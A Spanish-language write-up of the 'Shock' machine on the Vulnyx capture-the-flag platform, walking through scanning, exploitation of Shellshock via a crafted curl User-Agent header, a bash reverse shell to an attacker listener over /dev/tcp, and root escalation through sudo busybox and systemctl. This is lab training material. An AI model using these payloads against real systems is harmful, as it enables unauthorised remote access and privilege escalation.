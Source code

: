 ```yaml
---
layout      : post
title       : "Shock - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
optimized_image : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
category    : [ Vulnyx ]
tags        : [ Linux ]
description : 👻En esta ocasión romperemos una máquina Linux de nivel easy de la nueva plataforma Vulnyx. Explotaremos la vulnerabilidad Shellshock y escalaremos usando dos binarios👻.
---
```


👻Estamos ante una máquina Linux Easy de la nueva plataforma VulNyx en la que tenemos máquinas basadas en UNIX con diferentes niveles de dificultad para aprender y practicar las habilidades de Ciberseguridad👻.

***
**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

***
# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como en todo CTF comenzamos enumerando puertos en la máquina víctima, esto lo hacemos usando nmap, aunque esta vez voy a usar la herramienta rustscan.

Lanzo la herramienta con el rango de puertos del 1 al 65535 para que escanee todos los puertos existentes.

![](/assets/images/VULNYX/Shock-Vulnyx/rustcan.webp)

Como podemos ver tenemos dos puertos abiertos, el puerto 22 y el puerto 80.

Si lanzamos un escaneo un poco más avanzado para descubrir qué servicios corren en cada puerto podremos ver lo siguiente.

```r
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSRcer8jyQvBQLNodMY/8sZbjcip1NPmoJkdQZV/Ngm/cXzaUR06OCNKyJM8Blve6Pi86npcZPIs5iuowUH2eTDGRPoH9EbJCbeDRrGyy+CTrdLci3VEmFV8K0rhoYA3nzCPR59CKVdW58OIEMZoJiTzX/I/dH9Mp1XLSLghkirI2YiGJBUhxLyc+03LOTAu/kHC7F1d10/XQjmuspHkfX2PvJsIhzoaKXyo2+CFZNuWkY0/gs+FN9KPdtkMnyv9/+fGn06cYBu/dw7OE9OOcdl2jZUXVT/bEfjK1nNmjp3dAKqOO3iVpciGjCFBgQWvkjakOEpvfd2wAYQHOe9pL7
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP/FWnKmPLA1LACd7NDtXVGKDHXYkZmtzC8zhOGcpSD6nnbvhdo4CU4ZoLMAPQfc2Ww6qNCKY9LkmeegGyZBeoM=
|   256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2ClztzZ1xvNlcuG7c24bOcE/UKY3EBFH8Edpcy03vw
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH 7.9p1 Debian |
| 80     | HTTP     | Apache httpd 2.4.38 |

Tras ver que tenemos solo estos dos puertos abiertos procedo a enumerar un poco el servidor web Apache.

Accedo con el navegador para ver que encontramos de primeras y echar una pequeña ojeada inicial.

![](/assets/images/VULNYX/Shock-Vulnyx/web1.webp)

Aparente no hay nada de interés, en el código fuente tampoco, por lo que me pongo a fuzzear para buscar rutas o archivos en el servidor.

Para ello usaré la herramienta gobuster, aunque existen muchas más con las que se puede realizar el fuzzing.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing1.webp)

Podemos ver que existe el directorio cgi-bin, y eso me hace pensar que podríamos estar ante la vulnerabilidad ShellShock, y viendo el nombre de la máquina... es lo más probable.

Sigo fuzzeando desde la ruta /cgi-bin para descubrir más directorios o archivos dentro de la misma.

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones, tales como cgi y sh.

Tras fuzzear encuentro un archivo llamado `shell.sh` lo que ya me va haciendo confirmar que es muy probable que estemos ante ShellShock.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing2.webp)

Pero antes nada primero vamos a ver que es ShellShock y en que consiste.

## ¿Qué es la vulnerabilidad ShellShock y en qué consiste?

ShellShock es una vulnerabilidad asociada al CVE-2014-6271 que afecta a la shell de Linux "bash" hasta la versión 4.3.
A través de esta vulnerabilidad podemos ejecutar comandos de forma remota.

Se origina porque bash permite declarar funciones, pero no se validan de forma correcta cuando se almacenan en una variable.

# Explotación [#](explotación) {#explotación}

Ahora que ya sabemos más o menos que es esta vulnerabilidad y como se origina, toca explotarla.

Primero vamos a verificar que de verdad estamos ante ShellShock y es vulnerable al mismo.

```bash
curl -H ‘User-Agent: () { :;}; echo; echo ¿Vulnerable a ShellShock?’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

![](/assets/images/VULNYX/Shock-Vulnyx/shellshock1.webp)

Y como podemos ver ejecuta correctamente el comando `echo ¿Vulnerable a ShellShock?`.

Por lo que el siguiente paso será introducir una reverse shell en bash para intentar ganar acceso a la máquina víctima.

Ponemos netcat en escucha en el puerto 443

`nc -lnvp 443`

Y le metemos una reverse shell bash para ganar acceso.

```bash
curl -H ‘User-Agent: () { :;}; echo; bash -i >& /dev/tcp/192.168.0.30/443 0>&1’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

Y obtenemos acceso a la máquina como el usuario www-data.

![](/assets/images/VULNYX/Shock-Vulnyx/reverse-shell.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Tras ganar acceso comienzo a ojear un poco y veo que tenemos el directorio del usuario will, pero no tenemos permisos, por lo que lo primero será intentar migrarnos a este usuario.

# Movimiento Lateral - Usuario will

Ejecuto el comando `sudo -l` para enumerar permisos de sudo y veo que puedo ejecutar el binario busybox como el usuario will sin contraseña.

![](/assets/images/VULNYX/Shock-Vulnyx/busybox.webp)

Y siempre que hablamos de binarios... hablamos de GTFOBINS  

https://gtfobins.github.io/

![](/assets/images/VULNYX/Shock-Vulnyx/busybox-gtfo.webp)

Ejecutamos el siguiente comando:

`sudo -u will /usr/bin/busybox sh`

![](/assets/images/VULNYX/Shock-Vulnyx/will.webp)

Y ya nos hemos migrado al usuario Will y podemos leer la flag user.

El siguiente paso obviamente es escalar privilegios para convertirnos en root.

# Escalada de Privilegios

Para escalar privilegios de nuevo vuelvo a ejecutar el comando `sudo -l` para enumerar permisos sudo y veo que puedo ejecutar el binario systemctl como root sin contraseña.

Por lo que este paso es igual que el anterior, nos dirigimos a gtfobins.

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl-gtfobins.webp)

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl.webp)

Ejecutamos lo siguiente:

```bash
sudo /usr/bin/systemctl
!sh
```

![](/assets/images/VULNYX/Shock-Vulnyx/root.webp)

Y ya somos root.








